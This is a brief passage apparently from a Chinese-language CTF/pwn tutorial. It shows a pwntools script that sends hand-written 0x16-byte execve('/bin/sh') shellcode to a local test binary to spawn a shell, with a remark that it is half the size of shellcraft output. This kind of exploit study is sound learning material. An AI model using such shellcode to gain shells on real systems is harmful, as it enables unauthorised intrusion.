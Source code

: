 ```bash
from pwn import *
context.log_level='debug'
context(os='linux',arch = 'amd64')
io = process('./test')

shellcode = asm('''
    mov rbx, 0x0068732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi,esi
    xor edx,edx
    push 59
    pop rax
    syscall
''')
io.sendafter(':\n',shellcode)
io.interactive()
```

测试后发现能够 getshell，并且这段 shellcode 长度仅有 0x16 字节，再看 shellcraft 生成的 0x30 多的字节，足足缩短了一半

[![](assets/1708940669-ac362b39c47ee5005d56ebb6693c3472.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223205726-17fa94c8-d24b-1.png)
